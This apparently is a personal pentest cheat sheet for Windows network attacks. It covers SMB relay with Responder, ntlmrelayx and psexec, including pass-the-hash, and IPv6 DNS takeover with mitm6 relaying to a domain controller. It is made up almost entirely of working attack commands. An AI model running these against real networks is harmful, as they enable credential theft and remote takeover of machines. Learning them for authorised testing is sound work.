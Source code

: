 ```yaml
---
title: SMB RELAY
updated: 2023-09-29 04:59:25Z
created: 2023-09-29 04:55:04Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# SMB RELAY
Note: **SMB signing** must be **disabled** or **not enforced**, relayed user must be **admin** on machine
1. `nmap --script=smb2-security-mode.nse -p445 <target IP>` 
2. Turn SMB and HTTP off in **responder.conf**
3. `sudo responder -i eth0 -dwPv` 
4. `ntlmrelayx.py -tf targets.txt -smb2support`
5. psexec.py DOMAIN/user:'Password1'@targetIP
6. `psexec.py administrator@<target IP> -hashes asdasd688a67d86asd:907809ahdas89daui`

Alternatives: 
- **wmiexec.py**
- **smbexec.py**
***
##  IPv6 mitm DNS takeover
1. `ntlmrelayx.py -6 -t ldaps://<DC IP> -wh fakewpad.DOMAIN.local -l lootme`
2. `sudo mitm6 -d DOMAIN.local`